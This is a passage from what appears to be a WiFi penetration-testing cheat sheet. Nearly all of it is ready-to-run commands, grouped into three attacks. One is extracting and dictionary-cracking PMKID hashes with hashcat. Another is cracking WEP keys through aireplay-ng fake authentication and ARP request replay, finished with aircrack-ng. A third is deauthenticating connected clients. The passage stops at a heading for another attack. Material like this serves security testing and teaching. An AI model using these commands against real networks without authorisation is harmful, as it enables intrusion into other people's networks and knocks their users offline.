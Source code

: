 Sometimes it can take hours to capture a single PMKID hash.

Extract PMKID hashes from a PCAP file:

```fundamental
hcxpcaptool hcxdumptool_results.cap -k hashes.txt
```

Start the dictionary attack against PMKID hashes:

```fundamental
hashcat -m 16800 -a 0 --session=cracking --force --status -O -o hashcat_results.txt hashes.txt rockyou.txt
```

Find out more about Hashcat from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet#hashcat).

### ARP Request Replay Attack

If target WiFi network is not busy, it can take days to capture enough IVs to crack the WEP authentication.

Do the fake authentication to a WiFi network with non-existing MAC address and keep the connection alive:

```fundamental
aireplay-ng --fakeauth 6000 -o 1 -q 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

If MAC address filtering is active, do the fake authentication to a WiFi network with an existing MAC address:

```fundamental
aireplay-ng --fakeauth 0 wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

To monitor the number of captured IVs, run `airodump-ng` against a WiFi network and watch the `#Data` column (try to capture around 100k IVs):

```fundamental
airodump-ng wlan0mon --channel 8 -w airodump_essid_results --essid essid --bssid FF:FF:FF:FF:FF:FF
```

Start the standard ARP request replaying against a WiFi network:

```fundamental
aireplay-ng --arpreplay wlan1 -e essid -a FF:FF:FF:FF:FF:FF -h FF:FF:FF:FF:FF:FF
```

\[Optional\] Deauthenticate clients from a WiFi network:

```fundamental
aireplay-ng --deauth 10 wlan1 -e essid -a FF:FF:FF:FF:FF:FF
```

Crack the WEP authentication:

```fundamental
aircrack-ng -e essid -b FF:FF:FF:FF:FF:FF replay_arp*.cap
```

### Hitre Attack
